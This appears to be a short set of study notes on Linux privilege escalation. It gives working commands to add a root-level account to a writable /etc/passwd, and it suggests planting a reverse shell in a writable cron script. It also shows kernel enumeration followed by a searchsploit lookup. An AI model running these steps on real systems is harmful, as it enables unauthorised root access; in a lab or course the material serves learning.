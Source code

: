 ### Understanding Linux Privileges

Most resources, such as files, directories, devices, network communications are represented as files in the file systems, and each file has 3 types of permissions: read, write and execute.

### Insecure File Permissions: Cron Case Study

Inspect cron log for running jobs: `grep "CRON" /var/log/cron.log`

If some executable to be executed has unrestricted permissions, then we can modify the content of the script.

Add a reverse shell to the script.

### Insecure File Permissions: /etc/passwd Case Study

 If we can write to `/etc/passwd`, we can add an account.

`openssl passwd evil` 

```bash
openssl passwd evil			# generate hash for password
# > 3ZpVEg3djUeto
# Then add the new account info in the right format to /etc/passwd
echo "root2:3ZpVEg3djUeto:0:0:root:/root:/bin/bash" >> /etc/passwd	# 0:0: are user and group ids, 0 means superuser
su root2		# switch user to verify if account is added
id			    # check user id and group id
```

### Linux Kernel Vulnerabilities: Case Study

```bash
cat /etc/issue				# see message/system identification to be printed before login prompt
uname r					    # kernel
arch x86_64					# architecture
```

```bash
searchsploit linux kernel ubuntu 16.04			# search for existing exploits
```



















